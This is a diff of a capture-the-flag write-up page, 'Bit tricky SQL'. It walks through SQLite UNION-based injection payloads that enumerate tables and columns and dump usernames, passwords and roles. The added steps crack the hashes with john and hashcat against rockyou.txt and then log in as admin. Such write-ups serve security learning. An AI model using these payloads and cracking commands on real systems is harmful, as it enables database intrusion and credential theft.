

Before and after one commit to L3e7nK5M/nctf-writeups, a Markdown page: web/Bit tricky SQL.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/web/Bit tricky SQL.md
+++ b/web/Bit tricky SQL.md
@@ -15,7 +15,8 @@
 | 6. Identify the database type:<br>Hint: *Lightweight DB* → **SQLite** | <img width="600" height="452" alt="image" src="https://github.com/user-attachments/assets/54a6a642-fdbf-4b7e-8e51-8576b9b27116" /> |
 | 7. SQLite has no traditional DB name (file-based).<br>Enumerate **table names** using `sqlite_master`. | <img width="600" height="408" alt="image" src="https://github.com/user-attachments/assets/8c4df384-36ba-43eb-9b1f-9d7aa4d62f6e" /><br><img width="600" height="527" alt="image" src="https://github.com/user-attachments/assets/2a1aa752-378f-4239-9466-2af78cdfdd72" /> |
 | 8. Extract table names from `sqlite_master`:<br>```' UNION SELECT null, name, null, null, null, null, null FROM sqlite_master --```<br>Found table: **`NCTFDBUsers`** | <img width="600" height="1010" alt="sql2" src="https://github.com/user-attachments/assets/1a1a2572-e661-4ba5-9d7e-d71cbe6500a3" /> |
-| 9. Enumerate columns using `pragma_table_info`:<br>```' UNION SELECT null, name, null, null, null, null, null FROM pragma_table_info('NCTFDBUsers') --```<br>Found columns: **username, password, role, ...**<br>After that, if you try changing the columns, it seems that the 2, 4, and 5 columns are displayed. | <img width="600" height="289" alt="image" src="https://github.com/user-attachments/assets/40f4bda5-fe9d-4e17-a509-393acc4c972b" /><br>[pragma table_info](https://sqlite.org/pragma.html) |
-| 10. Enumerate `username`, `password`, and `role`:<br>```' UNION SELECT null, username, null, password, role, null, null FROM NCTFDBUsers --```<br>We found the **admin user** and user whom password stored in plaintext.<br>youwill`rockyou`? | <img width="600" height="588" alt="sql3" src="https://github.com/user-attachments/assets/14ec5b41-8926-4db1-8835-1f6ab80f81ba" /> |
-| 11. Export the usernames and passwords to a text file.<br>Edit `○○.txt` like this.<br>Identify the hash using tools or [online services](https://hashes.com/en/decrypt/hash).<br>Found hash type: **SHA-256** | <img width="771" height="259" alt="image" src="https://github.com/user-attachments/assets/6b988360-57ec-44ea-ae3a-e115aabb2e11" /> |
-| 12. Analyze the passwords using `john` (or `hashcat`). | |
+| 9. Enumerate columns using pragma_table_info:<br>' UNION SELECT null, name, null, null, null, null, null FROM pragma_table_info('NCTFDBUsers') --<br>Found columns: **username, password, role, ...**<br>After that, if you try changing the columns, it seems that the 2, 4, and 5 columns are displayed. | <img width="600" height="289" alt="image"　src="https://github.com/user-attachments/assets/40f4bda5-fe9d-4e17-a509-393acc4c972b" /><br>[pragma table_info](https://sqlite.org/pragma.html) |
+| 10. Enumerate username, password, and role:<br>' UNION SELECT null, username, null, password, role, null, null FROM NCTFDBUsers --<br>We found the **admin user** and another user whose password is stored in plaintext.<br>youwillrockyou?<br><br>👉 To crack the hashed password later, we will need a **rockyou.txt**.  You can find how to download it by searching *“download rockyou.txt”* on Google or AI. | <img width="600" height="588" alt="sql3" src="https://github.com/user-attachments/assets/14ec5b41-8926-4db1-8835-1f6ab80f81ba" /> |
+| 11. Export the usernames and passwords to a text file.<br>Edit ○○.txt like this.<br>Identify the hash using tools or [online services](https://hashes.com/en/decrypt/hash).<br>Found hash type: **SHA-256** | <img width="600" height="259" alt="image" src="https://github.com/user-attachments/assets/6b988360-57ec-44ea-ae3a-e115aabb2e11" /> |
+| 12. Crack the passwords using john (or hashcat).<br>Before cracking, prepare the file so that it only contains the needed username & hash pair.<br>For example:<br>`awk 'NR>1{print $1":"$2}' hash.txt > newhash.txt`<br><br>Then run the cracking tool john,hashcat etc..:<br>```john --format=raw-256 --wordlist=./rockyou.txt newhash.txt``` or ```hashcat -m 1400 -a 0 newhash.txt rockyou.txt```|<img width="600" height="245" alt="image" src="https://github.com/user-attachments/assets/d91766e4-1885-4e71-9e3f-542cd8d4ffd9" /><img width="600" height="351" alt="image" src="https://github.com/user-attachments/assets/9d9d9b35-7758-4098-a3bc-6c54ba4c2db4" />|
+| 13. Login as administrator.<br>🎉 Congratulations! You got the flag. | <img width="384" height="302" alt="image" src="https://github.com/user-attachments/assets/13622d75-9323-4efa-ad2e-7061ab205720" /> |
````
